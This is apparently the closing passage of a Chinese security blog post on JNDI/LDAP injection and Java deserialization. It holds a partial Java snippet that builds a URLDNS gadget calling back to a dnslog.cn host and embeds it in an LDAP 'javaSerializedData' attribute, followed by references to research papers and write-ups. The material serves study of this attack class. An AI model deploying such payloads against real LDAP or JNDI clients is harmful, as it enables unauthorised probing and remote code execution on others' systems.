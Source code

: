 ```java
            URL url = new URL("http://sdsda.dnslog.cn/");
            Class clas = Class.forName("java.net.URL");
            Field field = clas.getDeclaredField("hashCode");
            field.setAccessible(true);
            field.set(url,123);
            map.put(url,"2333");
            field.set(url,-1);
            serial.writeObject(map);
            ...
            ...
            e.addAttribute("javaSerializedData", bytes.toByteArray());
```
![](2023-02-21-16-10-25.png)

## 参考  
https://docs.oracle.com/javase/tutorial/jndi/  
https://paper.seebug.org/1091/#weblogic-rmi    
https://blog.csdn.net/li_w_ch/article/details/110114397    
https://xz.aliyun.com/t/7079  
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf  
https://kingx.me/Exploit-Java-Deserialization-with-RMI.html